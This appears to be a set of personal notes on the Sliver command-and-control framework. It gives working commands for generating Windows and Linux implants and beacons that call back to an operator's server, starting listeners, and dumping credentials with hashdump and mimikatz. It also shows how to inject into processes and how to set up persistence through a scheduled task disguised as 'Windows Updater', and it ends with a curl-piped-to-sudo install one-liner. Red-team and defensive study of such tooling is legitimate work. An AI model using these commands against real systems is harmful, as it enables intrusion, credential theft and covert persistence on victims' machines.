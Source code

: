 # Sliver
## Generating Binaries
* Generate an Implant (mtls, http, dns), this will generate a file saved at the location specified generate Generate a sliver binary
```
generate --mtls 192.168.0.21 --save ./file.exe --os Windows
```
* Start a listener
	* http Start an HTTP listener
	* https Start an HTTPS listener
	* dns Start a DNS listener
	* mtls Start an mTLS listener
* `jobs` shows the listeners
## Beacons
* periodically checks in with the server
	* used when trying to not be as noisy as a session
* kill all beacons with `beacons -k`
* to move from a beacon to a session, use the beacon and then use the command `interactive`
Generate linux implant
```
generate --mtls <IP> --os linux 
```

Generate windows beacon
```
generate --mtls <IP> --os windows --format exe
```
## Sessions
* essentially a shell
* If you land on a local-admin account use the `getsystem` to get a session
* `background` can background a session
* `hashdump` command from the armory pulls the local creds
* to kill a session run `session -k` followed by the session id

## The Armory
* Install all of the armory tools with `armory install all`
* if it starts with "sa" gets info on box
*  Sharpersit
```
sharpersist -- -t schtask -c "C:\Windows\Tasks\malwarefile.exe" -n "Windows Updater" -m add
```
* breaking down the command
	* -- sends arguments to program you are running instead of sliver
	* -t is type of persistence
	* -c is the type of command you want to run
	* -n is the name
	* -m updater

## Other Sliver Notes
* execute assembly
	* will take compiled program on your laptop and inject
* `sharpkatz` is mimikatz, should already be loaded in
* `secinject` section mapping process injection

Sliver install oneliner
```
curl https://sliver.sh/install|sudo bash
sliver
```

Multiplayer
```
new-operator --name <name> --lhost <address of sliver server>
multiplayer
```